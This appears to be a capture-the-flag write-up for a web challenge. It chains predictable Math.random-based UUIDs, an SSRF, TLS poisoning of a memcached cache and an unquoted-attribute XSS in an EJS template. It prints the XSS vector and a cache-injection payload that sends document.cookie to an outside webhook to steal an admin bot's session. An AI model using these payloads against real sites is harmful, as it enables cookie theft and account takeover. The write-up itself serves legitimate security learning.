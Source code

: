 ## What do we need?


### Insecure random

The application uses the "lil-uuid" library to generate the UUIDs.
This library is unsafe because it uses Math.random() to get the random values, as you can see in this snippet of code.

```js
  function uuid() {
    var uuid = '', i, random
    for (i = 0; i < 32; i++) {
      random = Math.random() * 16 | 0;
      if (i === 8 || i === 12 || i === 16 || i === 20) uuid += '-'
      uuid += (i === 12 ? 4 : (i === 16 ? (random & 3 | 8) : random)).toString(16)
    }
    return uuid
  }
```

Using this problem we can predict the generated UUIDs


### SSRF

The "import template" functionality asks the user for a URL and uses it to fetch the URL page server side.

### TLS poisoning

A cool attack that exploits the session persistence feature of TLS to turn an SSRF into a flexible attack to internal services.

This can be used to send arbitrary commands to the cache used by the application.

You can read more information about this attack and find the implementation [here](https://github.com/jmdx/TLS-poison).

### XSS

The template file "check_request.ejs" is vulnerable to XSS if you can control the base64 image saved in the cache.

This is the vulnerable part of the template:
```
<img src=data:image/png;base64,<%= request.img %>>
```

The template engine automatically escapes the dangerous characters in the img variable.
However, you don't need any special character because the src attribute isn't contained inside quotes.

Indeed, the following payload in the img variable will execute an alert:
```
aaa onerror=alert(1)
```

### Infoleak

I don't believe this is strictly necessary, however, it's useful to obtain the IP address of the memcached docker.
You can do this with the "import template" functionality by requiring the server to fetch the "http://cache/" URL.
This should return an error similar to 
```
FetchError: request to http://cache/ failed, reason: connect ECONNREFUSED 172.28.0.2:80
```
leaking the IP address of the memcached docker.




## Let's put it all together

We need to perform the following steps:

- Find the UUID of a premium request (the application doesn't leak it to the user)
- Use the TLS poison attack to change the value of a premium request in the cache to our XSS payload that leaks the flag
- Ask the admin to visit our request 
- Wait for the flag :)


### Find the UUIDs of our request

We can leak some UUIDs generated by the vulnerable library by registering a new user.
The user_id will be inside the JWT cookie signed by the server after logging in with the new user.

Our exploit uses two UUIDs to retrieve the random seed and an additional UUID to confirm the retrieved value.

You can use the `get_uuids.py` script to register 3 users and create the premium request that will be exploited.

You can use the UUIDs to break the PRNG and retrieve the seed used. 
Pay attention to take into consideration all the `Math.random()` calls done by the server in the requests performed by the python scripts, because some of the library used in the server also calls the `Math.random()` function.

You can use the 2 UUIDs to break the random and the third one to check the correctness of your computations.
With this approach, you are able to compute and confirm the id of the generated request.


### Cache injection

You can use the [TLS poison implementation](https://github.com/jmdx/TLS-poison) to inject some data into the cache.

I injected the following payload:
```
\r\n\r\nset message_LEAKEDREQUESTID 0 0 120\r\n{\"msg\":\"test\",\"img\":\"aaa onerror=location=`https://webhook.site/527ed3bf-e37d-4e79-8643-0ed36e1869af?`+document.cookie\"}\r\n\r\n
```

This payload will trigger the XSS and leak the bot token to a webhook.

After setting up the exploit server you can use the SSRF to trigger the exploit.

### Exploit the XSS

After injecting the cache, you can log in the account generated by the python script and make the admin bot visit your request with the XSS payload.


If everything went smoothly you will find the admin cookie in your webhook. You can use it to retrieve the flag.

